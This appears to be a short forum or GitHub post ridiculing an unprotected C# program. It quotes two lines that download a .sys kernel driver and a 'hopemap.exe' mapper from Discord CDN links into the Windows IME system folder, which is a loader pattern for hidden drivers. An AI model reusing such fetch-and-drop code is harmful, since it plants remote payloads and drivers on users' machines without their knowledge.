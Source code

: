 it wasnt even protected lmfao c# bullshit


 webClient.DownloadFile("https://cdn.discordapp.com/attachments/957117967957635072/982179233138884618/hopefndrvs.sys", "C:\\Windows\\IME\\hopefndrvs.sys");
      webClient.DownloadFile("https://cdn.discordapp.com/attachments/957117967957635072/982179233302450186/hopemap.exe", "C:\\Windows\\IME\\hopemap.exe");
